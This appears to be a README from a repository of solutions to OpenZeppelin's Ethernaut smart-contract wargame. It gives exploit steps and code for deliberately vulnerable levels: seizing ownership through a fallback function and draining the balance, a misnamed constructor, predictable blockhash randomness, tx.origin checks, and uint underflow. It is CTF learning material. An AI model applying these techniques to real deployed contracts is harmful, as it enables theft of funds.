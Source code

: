 # Hackernaut 🧑‍🚀
Set of smart contracts and documentation for hacking the OpenZeppelin [Ethernaut game](https://ethernaut.openzeppelin.com/)
> **Note**: Not all the levels can be solved by creating a smart contract.
> This repository contains the contracts that solve the levels that **require** a smart contract to be solved and some steps to hack the rest of them.

Happy hacking! 😄

## Smart Contracts setup

1. Create an [Alchemy](https://www.alchemy.com/) account.
2. Create a testing Rinkeby testnet account and feed it with some RinkebyETH using the [Alchemy Faucet](https://rinkebyfaucet.com/).
3. Create a `.env` file on the root folder containing the following variables

```shell
VICTIM_ADDRESS= # Address of the current contract you want to hack
ALCHEMY_API_KEY= # Your Alchemy API Key
RINKEBY_PRIVATE_KEY= # Private key from the Rinkeby testnet account
```

## Scripts
Before hacking each level you must setup the `VICTIM_ADDRESS` env variable previously mentioned. Then, you must run the yarn deploy script according to the level:

```shell
yarn deploy -- <level_name>
```
After this, you must harcode the contract address in the respective script by overriding the `contractAddress` variable. Once done, run the following:

```shell
yarn start:<level_name>
```

## Solutions

### 1. Hello Ethernaut
Just follow the steps and you'll get there.

---

### 2. Fallback
This level requires 2 steps to complete as described:

>You will beat this level if
>1. you claim ownership of the contract
>2. you reduce its balance to 0

#### Claiming the ownership
The trick here is to use the fallback `receive` function to get the ownership of the contract.

```sol
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```
In order to archieve this, we must statisfy 2 conditions: `msg.value` must be greater than zero and our account must have contributed.

So before calling the fallback `receive` function, we need to make a contribution to the contract. We can do so as follows:

```js
await contract.contribute({ value: 1 });
```
You can also check that the contribution was successful by calling the following line

```js
await contract.contributions(player).then(Number)
```
if the number is greater than zero, then you did it.

Now we can claim the ownership of the contract calling the fallback `receive` function. In order to call fallback payable functions, we just have to send a regular transaction to the contract address as follows:

```js
await contract.sendTransaction({ value: 1 })
```
Now if the transaction was successful, we must be the new owners of this contract, let's check that.

```js
await contract.owner().then(owner => owner === player)
```
#### Reducing the balance to 0
The way to reduce the balance to 0 is by using the `withdraw` function, which sends all the current balance to the owner.

```sol
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

We are the owners of the contract, let's take those coins!

```js
await contract.withdraw()
```
---

### 3. Fallout

In this contract there is a typo (not very visible due to the text font) in the 'constructor' function. Wich means that its name does not match with the contract name.

```sol
contract Fallout {

  //...

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

Therefore this is just a regular public function that can be called by anyone.

```js
await contract.Fal1out({ value: 1 });
```

then you can check the ownership of the contract

```js
await contract.owner().then(owner => owner === player)
```

And we are done!

---

### 4. Coin Flip
On this level we are going to exploit the pseudo-randomness of smart contracts.

```sol
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```

Turns out that the `blockValue` is totally deterministic for a given block, which means that we can replicate this value using another smart contract and calling the function `guess` from there.

The code of the smart contract is [here](https://github.com/MCarlomagno/hackernaut/blob/main/contracts/CoinFlip.sol).

As a summary, the following function will guess the coin side successfully in every single try:

```sol
function guess() public {
  uint256 blockValue = uint256(blockhash(block.number - 1));
  uint256 coinFlip = blockValue / FACTOR;
  bool myGuess = coinFlip == 1 ? true : false;
  CoinFlipInterface(victimAddress).flip(myGuess);
}
```
Then you just have to call your `guess` function 10 times.

---

### 5. Telephone

The `msg.sender` is the address of the function caller (can be whether an ethereum account address or an smart contract address), and the `tx.origin` is the address of the account that originated the transaction.

```sol
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

This means that we can satisfy the condition `(tx.origin != msg.sender)` by setting up a contract between our account call and the contract call.

[Here](https://github.com/MCarlomagno/hackernaut/blob/main/contracts/Telephone.sol) is the code of the contract we are going to use, you just have to deploy it and call `claimOwnership` function.

---

### 5. Token

Here we can hack the contract by exploiting the `uint` data type design. Since it is unsigned by definition, we cannot convert it into a negative number, then the `require` statement will always be satisfied no matter what positive value we send on the `_value` parameter.

```sol
  require(balances[msg.sender] - _value >= 0);
```

Then if we substract a greater uint number from a uint we will produce an arithmetic underflow.

```sol
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

So we can simply send the following transaction and after that, our balance should be something like `1.157920892373162e+77`.

```js
await contract.transfer('<some_random_address>', 21);
```

Check your balance after the transaction:

```js
await contract.balanceOf(player).then(Number)
```
